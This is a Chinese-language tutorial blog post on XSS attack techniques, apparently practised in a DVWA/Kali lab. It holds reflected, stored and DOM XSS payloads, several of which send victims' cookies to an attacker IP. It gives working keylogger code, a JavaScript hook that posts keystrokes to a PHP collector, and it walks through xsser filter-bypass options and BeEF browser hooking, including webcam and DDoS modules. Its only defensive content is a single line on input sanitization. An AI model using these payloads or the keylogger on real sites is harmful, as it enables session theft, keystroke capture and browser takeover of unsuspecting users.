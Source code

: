 ```yaml
---
title: XSS常用攻击手段
date: 2018-01-31 14:48:21
categories: 安全
tags: 漏洞
---
```

XSS（cross-site scripting）
------
>通过WEB站点漏洞，向客户端交付恶意脚本代码，实现对客户端的攻击目的
注入客户端脚本代码，盗取cookie、重定向
>

__使用场景__
```
直接嵌入html：<script> alert('xss);</script>
元素标签时间：<body onload=alert('xss')>
图片标签：<img src="javascript:alert('xss);">
其他标签：<iframe>，<div>，<link>
DOM对象，篡改页面内容
```
__漏洞形成的根源：__
+ 服务器对用户提交数据过滤不严
+ 提交给服务器的脚本被直接返回给其他客户端执行
+ 脚本在客户端执行恶意操作

__XSS漏洞类型：__
+ 存储型（持久型）
+ 反射型（非持久）
+ DOM 型

__怎么知道网站是否有漏洞：__
提交的数据原封不动的返回  

![提交表单前](http://upload-images.jianshu.io/upload_images/5834506-371c5fff4a97bb4e.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
![提交表单后](http://upload-images.jianshu.io/upload_images/5834506-4e42465a9340d6bd.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
__反射型漏洞注入：__
---
```
<script>alert('xss');</script>
<a href='' onlick=alert('xss');></a>
<img src=http://192.168.1.1/a.jpg onerror=alert('xss');</script>（当图片找不到就会执行onerror）
<script>window.location='http://192.168.1.1'</script>（页面重定向）
<iframe src="http://192.168.1.1/victim" height="0" width="0"></iframe>
<script>new Image().src="http://1.1.1.1/c.php?output="+document.cookie;</iframe>
（将cookie发送到自己的主机）
<script>document.body.innerHTML="<div style=visibility:visible;><h1>HELLO</h1></div>;"</script>
<script src="http://1.1.1.1/a.js"></script>
a.js: var img = new Image();img.src="http://1.1.1.1/cookie.php?cookie="+document.cookie
（让浏览器去包含一个有木马的js文件，这样有隐蔽性）
```
__反射型漏洞例子：键盘记录器__
原理：在被攻击者的电脑浏览器上调用指定ip地址上的js文件，即利用XSS输入以下脚本
`<script src="http://1.1.1.1/keylogger.js"></script>`  

在`/var/www/html/`目录下新建`keylogger.js`

keylogger.js
```javascript
document.onkeypress = function(evt) {
  evt = evt || window.event;
  key = String.fromCharCode(evt.charCode)
  if(key) {
    var http = new XMLHttpRequest();
    var param = encodeURI(key);
    http.open("POST","http://1.1.1.1/keylogger.php",true);//注意：把ip地址改成自己的ip
    http.setRequestHeader("Content-type","application/x-www-form-urlencoded");
    http.send("key="+param);  
  } 
}
```
由于我们是由`keylogger.php`文件接收键盘记录的，所以还需要一个php脚本

keylogger.php
```php
<?php
    $key = $_POST['key'];
    $logfile = "keylog.txt";
    $fp = fopen($logfile,"a");
    fwrite($fp,$key);
    fclose($fp);
?>
```
然后新建一个`keylog.txt`，用来记录被攻击者的键盘记录，改写它的权限`chmod 777 keylog.txt`
然后执行`service apache2 start`开启apache，可以用`netstat -pantu | grep :80`查看被占用的进程然后杀掉
确保能够访问到刚才写的js脚本  

![](http://upload-images.jianshu.io/upload_images/5834506-0df4a67ed2e19f9e.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

最后就可以在有XSS漏洞的地方输入`<script src="http://1.1.1.1/keylogger.js"></script>`注入脚本  

![](http://upload-images.jianshu.io/upload_images/5834506-974e501753a737bd.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)  
提交之后，可以看到url地址已经变了，而且被攻击者也有提示输入成功，这个时候我们就可以敲键盘，没有焦点也可以记录键盘，这里为了显示方便，我们在输入框输入`hello hacker`  

![被攻击者用键盘输入](http://upload-images.jianshu.io/upload_images/5834506-c61c42f5e0acc2e5.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)  

![攻击者的keylog文件](http://upload-images.jianshu.io/upload_images/5834506-407ea68464fc3a9b.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

Xsser--自动化工具
----
+ 图形化/命令行界面（图形化只需要在命令行输入`xsser --gtk`）
+ 绕过服务器端输入筛选
10进制/16进制
unescape()
+ xsser -u "http://172.16.242.128/dvwa/vulnerabilities/" -g "xss_r/?name=" --cookie="security=low; PHPSESSID=1f7c245b5c6145fbeb0f36d5e601ef2f" -s -v --reverse-check

参数
```
-g（Get方法） -p （Post方法）
-s （在结束后显示统计信息）
-v （显示详细信息）
--reverse-check （发送一个含有本机连接的js文件，基于连接是否被建立来判断时候有漏洞）
--heuristic （检查被过滤的字符）
```
对payload编码，绕过服务器端筛选过滤
```
    --Str               Use method String.FromCharCode()
    --Une               Use Unescape() function
    --Mix               Mix String.FromCharCode() and Unescape()
    --Dec               Use Decimal encoding
    --Hex               Use Hexadecimal encoding
    --Hes               Use Hexadecimal encoding with semicolons
    --Dwo               Encode IP addresses with DWORD
    --Doo               Encode IP addresses with Octal
    --Cem=CEM           Set different 'Character Encoding Mutations'
                        (reversing obfuscators) (ex: 'Mix,Une,Str,Hex')
```
注入技术
```
    --Coo               COO - Cross Site Scripting Cookie injection
    --Xsa               XSA - Cross Site Agent Scripting
    --Xsr               XSR - Cross Site Referer Scripting
    --Dcp               DCP - Data Control Protocol injections
    --Dom               DOM - Document Object Model injections
    --Ind               IND - HTTP Response Splitting Induced code
    --Anchor            ANC - Use Anchor Stealth payloader (DOM shadows!)
```
其他可以用的参数
```
    --Fp=FINALPAYLOAD   OWN    - Exploit your own code
    --Fr=FINALREMOTE    REMOTE - Exploit a script -remotely-
    --Doss              DOSs   - XSS (server) Denial of Service
    --Dos               DOS    - XSS (client) Denial of Service
    --B64               B64    - Base64 code encoding in META tag (rfc2397)
    --Onm               ONM - Use onMouseMove() event
    --Ifr               IFR - Use <iframe> source tag
```
存储型XSS
---
+ 长期存储于服务器端
+ 每次用户访问都会被执行js脚本

漏洞常见于有留言板之类功能的网站，因为评论或留言之后我们可以看到自己刚才输入的东西。这样，只要一次注入，其他人打开这个网站的时候，就会加载这个脚本，就可以盗取cookie或者记录键盘
有一些评论会限制字数，不能注入完整的脚本，但是我们可以用`burpsuite`截断代理，截断请求，然后在请求里面注入脚本，关于怎么使用`burpsuite`我在之前有发过一篇工具介绍，可以参考那篇文章

对于XSS，需要对变量输入和变量输出做数据清洗（符号编码，去除一些字符），才能完全补上这个漏洞

DOM型XSS
---
DOM ：一套js和其他语言可以调用的API 
```
<script>var img=document.createElement("img");img.src="http://1.1.1.1:88/log?"+escape(document.cookie);</script>
```
BEEF攻击框架
---
+ 生成、交付payload
+ ruby语言编写
+ 服务器端：管理hooked客户端
+ 客户端：运行于客户端浏览器的 js 脚本（hook）
浏览器攻击面：
+ 应用普遍转移到B/S架构，浏览器成为统一客户端程序
+ 结合社会工程学方法对浏览器进行攻击
+ 攻击浏览器用户
+ 通过注入的JS脚本，利用浏览器攻击其他网站
攻击手段：
+ 利用网站xss漏洞实现攻击，能利用存储型xss漏洞更好
+ 诱使客户端访问含有hook的伪造站点
+ 结合中间人攻击注入hook脚本
常见用途：
+ 键盘记录器
+ 网络扫描
+ 浏览器信息收集
+ 绑定shell
+ 与metasploit 集成
使用方式：
在kali2.0的左侧就有集成好的Beef，点击之后在终端可以看到提示，在浏览器中输入url就能进入到web管理页面，默认帐号和密码都是`beef`  

![](http://upload-images.jianshu.io/upload_images/5834506-971e33a1751fc483.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

在有xss漏洞的地方注入终端提示的代码，注意，要把ip地址改为beef启动的机器的ip地址
![](http://upload-images.jianshu.io/upload_images/5834506-c21b84a808833622.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)   

之后就能在 beef管理页面看到被hooked的网站  

![](http://upload-images.jianshu.io/upload_images/5834506-f59f32a3770ef2c4.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)  
hooked客户端做的一切操作都会记录在`log`标签  
![](http://upload-images.jianshu.io/upload_images/5834506-567e1f0e78f8a2d2.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
commands标签：
+ 绿色：表示模块适合目标浏览器，并且执行结果不被客户端可见
+ 红色：表示模块不适用于当前用户，有些红色模块也可以正常执行
+ 橙色：模块可用，但结果对用户可见（CAM弹窗申请权限等）
+ 灰色：模块未在目标浏览器上测试过

这个标签包含很多模块，可以对hooked客户端进行各种攻击，包括打开摄像头，记录表单，甚至可以利用hooked的浏览器进行DDOS攻击，就是所谓的僵尸机，有很强的隐蔽性



